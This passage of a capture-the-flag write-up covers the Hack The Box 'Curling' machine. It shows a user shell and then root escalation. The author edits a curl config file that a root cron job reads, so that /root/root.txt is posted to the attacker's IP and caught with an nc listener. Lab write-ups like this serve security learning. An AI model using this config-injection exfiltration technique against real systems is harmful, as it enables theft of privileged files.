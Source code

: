 ```


Last login: Mon May 28 17:00:48 2018 from 192.168.1.71
floris@curling:~$ ls
admin-area  password_backup  user.txt
floris@curling:~$ id
uid=1000(floris) gid=1004(floris) groups=1004(floris)
```
We are in get the user flag:
```
floris@curling:~$ cat user.txt 
65dd1df0713b40d88ead98cf11b8530b
```

# Root Flag

I used **pspy** and found this:

```
| /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
| /bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input 
| /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
```

So we can make it print for us the root flag, we only need to change the ```input``` file:
```
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"
```

Change it to this:

```
floris@curling:~/admin-area$ cat input 

url = "http://10.10.14.27"
data = @/root/root.txt
```
And start a listener on port 80:
```
┌──(kali㉿kali)-[~/Desktop/HTB/Curling]
└─$ sudo nc -nlvp 80                                                                                                                                                                       
listening on [any] 80 ...
```

And you will get the flag:

```
┌──(kali㉿kali)-[~/Desktop/HTB/Curling]
└─$ sudo nc -nlvp 80                                                                                                                                                                       
listening on [any] 80 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.150] 38482
POST / HTTP/1.1
Host: 10.10.14.27
User-Agent: curl/7.58.0
Accept: */*
Content-Length: 32
Content-Type: application/x-www-form-urlencoded

82c198ab6fc5365fdc6da2ee5c26064a
```

Thank you for reading, and you can find me here on twitter: https://twitter.com/electronicbots
